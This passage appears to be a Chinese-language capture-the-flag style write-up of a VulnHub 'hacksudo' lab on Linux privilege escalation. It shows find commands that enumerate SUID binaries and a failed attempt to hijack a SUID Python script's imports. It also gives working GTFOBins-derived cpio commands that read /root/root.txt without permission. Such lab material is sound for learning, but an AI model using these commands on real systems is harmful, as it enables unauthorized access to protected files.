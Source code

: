## 利用具有SUID的py文件

使用`find`寻找具有SUID权限文件

```shell
find /-perm -4000 -print 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\69.jpg)

可以看到这个`python`文件，具有SUID权限，但是不能直接写入，因为其所属者和所属组都是`root`，且其他人无写入权限，不过这里导入两个包`os`和`sys`，寻找这两个包，看其权限，发现并未有权限

```shell
find / -name "os.py" -exec ls -l {} \; 2>/dev/null
```

寻找导入模块`os.py`位置以及权限，是否可写

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\70.jpg)

但是发现寻找`sys.py`，确没有这个文件，那么能否自己写这个包呢，进行测试，也是无权限写入

这就不知道该怎么提权了，又不能写入



# 可读文件滥用提权

## cpio提权

使用`find`寻找具有SUID权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\71.jpg)

测试发现，本身就是命令`cpio`，查看用法，发现该命令可进行读、写等操作

链接`https://gtfobins.github.io/gtfobins/cpio/#suid`

```shell
【读文件内容】
LFILE="/root/root.txt"
TF=$(mktemp -d)
echo "$LFILE" | ./cpio -R $UID -dp $TF
cat "$TF/$LFILE"

或者
echo "/root/root.txt" | cpio -o
```

![](D:\stu\vulnhub\hacksudo靶场\pic-ple-2\72.jpg)

